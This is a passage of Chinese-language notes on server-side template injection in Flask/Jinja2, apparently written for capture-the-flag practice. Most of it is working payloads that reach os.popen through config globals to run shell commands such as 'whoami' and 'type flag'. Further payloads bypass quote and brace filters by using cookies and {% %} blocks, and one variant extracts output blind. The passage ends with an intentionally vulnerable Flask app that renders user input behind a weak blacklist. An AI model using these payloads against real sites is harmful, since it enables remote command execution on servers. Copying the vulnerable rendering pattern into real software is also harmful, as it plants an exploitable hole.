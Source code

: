 ```python
dict.get(key, default=None)
返回指定键的值，如果值不在字典中返回default值

dict.setdefault(key, default=None)
和get()类似, 但如果键不存在于字典中，将会添加键并将值设为default
```

```python
{{ config.__class__.__init__.__globals__.setdefault('os').popen('whoami').read() }}
{{ config.__class__.__init__.__globals__.get('os').popen('whoami').read() }}
```

用` __getitem__ `

```python
{{ config.__class__.__init__.__globals__.__getitem__('os').popen('whoami').read() }}
```

## 过滤 '

还是利用 `request.args `

```python
{{ config.__class__.__init__.__globals__[request.cookies.os].popen(request.cookies.command).read() }}

cookie: os=os;command=whoami
```

## 过滤 {% raw %} {{ / }} {% endraw %}

还可以用 {% raw %} {%%} {% endraw %}

```python
name={%print(config.__class__.__init__.__globals__['os'].popen('type flag').read())%}
```

或者类似于盲注的一种方式

```python
{% if config.__class__.__init__.__globals__['os'].popen('type flag').read()[0:1]=='f' %}1{% endif %}
```

示例:

```python
from flask import Flask, render_template_string, request
app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    blacklist = ["{{","print"]
    name = request.args.get('name')
    for i in blacklist:
        if i in name.lower():
            return 'sb hacker!'
    return render_template_string(name)

if __name__ == '__main__':
    app.run(debug=True)

```
